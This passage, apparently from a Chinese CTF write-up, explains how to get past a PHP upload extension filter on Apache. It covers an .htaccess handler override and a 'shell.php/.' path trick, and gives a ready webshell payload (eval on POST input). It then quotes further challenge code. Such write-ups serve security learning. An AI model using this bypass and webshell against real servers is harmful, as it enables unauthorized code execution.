 这段代码的功能是通过 POST 的方法上传文件，由 `con` 指定文件内容、`file` 指定文件名，通过正则匹配文件名后缀过滤了以下后缀（不区分大小写）：

```php
php php3 php4 php5 php7 pht phtml
```

如何突破文件后缀名的限制? 主要思路有如下三点：

1. Web中间件的解析漏洞 , 因为已经知道中间件是`Apache2` , 使用的是`PHP` . 所以无非就是`Apache`解析漏洞或者`PHP CGI`解析漏洞

2. 通过上传`.htaccess`文件 , 该文件是`Apache`的一大特色 . 其中一个功能便是修改不同`MIME`类型文件使用的解析器 . 但要使用该功能需要`Apache`在配置文件中设置`AllowOverride All` , 并且启用`Rewrite`模块 , eg:

```xml
<FilesMatch "shell.jpg">
    SetHandler application/x-httpd-php
</FilesMatch>
# 此时, shell.jpg 会被解析为PHP文件
```

3. 特殊文件后缀, 想要解析PHP文件, 并非后缀要是*.php. 如果查看mime.types, 会发现很多文件后缀都使用了 `application/x-httpd-php` 这个解析器：

![](/assets/images/move/20190916184358.png)

其中 `phps` 和 `php3p` 都是源代码文件, 无法被执行. 而剩下所有的后缀都被正则表过滤, 所以这种方式无法成功上传可执行文件.

所以最后还是回到了**中间件解析漏洞**上 , 但是经过测试发现并不是常规的解析漏洞 , 而是利用了一个**Linux的目录结构特性**, 如下:

```sh
~ $ mkdir 1.php
~ $ mkdir ~/1.php/2.php/
~ $ cd ~/1.php/2.php/..
~/1.php $ ls -la
drwxr-xr-x  3 .
drwxr-xr-x 21 ..
drwxr-xr-x  2 2.php
```
创建了一个目录为 1.php, 在 1.php 下创建了一个子目录为 2.php. Linux 下每创建一个新目录 , 都会在其中自动创建两个隐藏文件：`.` 和 `..`。

其中 `.` 代表当前目录 ，`..` 代表当前目录的父目录 , 访问 `./1.php/2.php/..` 代表访问 2.php 的父目录 , 也就是访问 `1.php`. 这里上传 Shell 可以用这个特性来 bypass，Payload如下：

```
con=<?php @eval($_POST[0]);?>&file=shell.php/.
```

如果获取到 `$_SESSION['admin']` 则可以通过此功能上传 Webshell，让我们来看一下第三段代码：

```php
<?php
if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
    include 'config.php';
    $id = mysql_real_escape_string($_GET[id]);
    $sql="select * from cetc007.user where id='$id'";
    $result = mysql_query($sql);
    $result = mysql_fetch_object($result);
} else {
    $result = False;
    die();
}
if(!$result) die("<br >something wae wrong ! <br>");
```